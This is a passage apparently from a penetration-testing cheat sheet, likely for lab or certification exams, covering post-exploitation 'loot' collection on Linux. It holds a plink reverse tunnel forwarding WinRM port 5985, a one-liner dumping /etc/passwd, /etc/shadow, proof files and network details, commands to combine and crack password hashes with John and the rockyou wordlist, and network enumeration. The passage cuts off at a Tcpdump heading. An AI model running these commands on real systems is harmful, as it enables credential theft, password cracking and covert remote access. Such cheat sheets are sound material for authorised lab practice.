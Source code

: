 `plink -l LOCALUSER -pw LOCALPASSWORD LOCALIP -R 5985:127.0.0.1:5985 -P 221`

 

# **Loot**

## Linux

**Checklist**

- Proof:
- Network secret:
- Passwords and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:
- Mail:

### Proof
```
echo -e '\n'HOSTNAME:   && hostname && echo -e '\n'WHOAMI:   && whoami && echo -e '\n'PROOF:  && cat proof.txt && echo -e '\n'IFCONFIG:  && /sbin/ifconfig && echo -e '\n'PASSWD:  && cat /etc/passwd && echo -e '\n'SHADOW:  && cat /etc/shadow && echo -e '\n'NETSTAT:  && netstat -antup
```


### Network secret

```
/root/network-secret.txt
```

### Passwords and hashes

```
cat /etc/passwd
cat /etc/shadow

unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

### Dualhomed

```
ifconfig
ifconfig -a
arp -a
```

### Tcpdump
